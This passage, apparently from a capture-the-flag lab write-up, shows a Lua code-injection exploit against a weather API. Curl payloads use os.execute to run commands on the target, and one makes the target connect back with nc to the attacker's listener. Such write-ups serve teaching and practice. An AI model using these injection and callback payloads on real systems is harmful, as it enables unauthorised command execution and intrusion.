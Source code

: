     
    
    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city='"
    <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
    

If I add a closing parens and then a comment, it will actually send back the
payload cut off in the middle:

    
    
    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+--"
    {"code": 500,"error": "unknown city:
    

This suggests that the string is being built in that command, and the comment
took out the part that handles the closing `"` and `}`.

### Injection POC

To run a command from Lua,
[GTFObins](https://gtfobins.github.io/gtfobins/lua/#sudo) shows it’s just
`os.execute("[command]")`. Adding that works:

    
    
    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+os.execute('id')+--"
    {"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd
    

To do a more complex payload, I’ll switch to letting `curl` encode my arg for
me:

    
    
    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('id') --" 'http://10.10.10.218/weather/forecast' -s 
    {"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
    

`-G` will force a GET commands, and use the data from `--data-urlencode` in
the url instead of in the body.

### Shell

Because the box is BSD, some typical Linux reverse shells won’t work. I’ll
start small. Can `nc` connect back to me?

    
    
    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('nc 10.10.14.11 443') --" 'http://10.10.10.218/weather/forecast' -s
    

At my listener there’s a connection:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 654
    

This isn’t a shell, but I know that the box has netcat and can connect to me.
I could try `-e /bin/bash`, but it doesn’t work. Running `nc -h 2>&1` shows
the `-e` option isn’t there. My goto Bash shell actually does give a
connection back, but then immediately dies:
